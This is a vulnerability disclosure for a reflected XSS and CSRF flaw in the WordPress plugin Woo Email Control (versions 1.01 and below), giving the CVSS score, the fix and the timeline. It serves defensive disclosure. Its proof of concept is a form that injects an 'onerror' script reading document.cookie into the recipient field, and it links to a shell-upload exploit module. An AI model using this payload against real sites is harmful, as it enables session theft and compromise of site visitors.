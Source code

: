 ```yaml
---
layout: single
title: Woo Email Control <= 1.01 Reflected XSS Disclosure
date: 2016-07-19
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - woo email control
  - reflected xss
excerpt: Due to a lack of encoding and CSRF mitigation in the `test_email` function found on line 106 of `classes/class-wooctrl.php`, it is possible to automate a request to the AJAX handler for the `wooctrl_send_test_email` action which will reflect the specified script back to the end user.
---
```

## Homepage
[https://wordpress.org/plugins/woo-email-control/](https://wordpress.org/plugins/woo-email-control/)

## Overview
Due to a lack of encoding and CSRF mitigation in the `test_email` function found on line 106 of `classes/class-wooctrl.php`, it is possible to automate a request to the AJAX handler for the `wooctrl_send_test_email` action which will reflect the specified script back to the end user.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
1.01 and below

## Solution
Upgrade to version 1.02

## Proof of Concept
```xml
<form method="post" action="http://<target>/wp-admin/admin-ajax.php?action=wooctrl_send_test_email">
    <input type="text" name="email_class" value="WC_Email_Customer_New_Account">
    <input type="text" name="recipient" value="user@user.com<img src=x onerror=alert(document.cookie)>">
    <input type="submit" value="Test">
</form>
```

## WordPress Exploit Framework Module
[exploit/xss/reflected/woo\_email\_control\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/modules/exploit/xss/reflected/woo_email_control_reflected_xss_shell_upload.rb)

## WPVDB-ID
8559

## Disclosure Timeline
* **2016-07-18**: Identified vulnerability, contacted vendor with POC and a patch.
* **2016-07-18**: Vendor released patch.
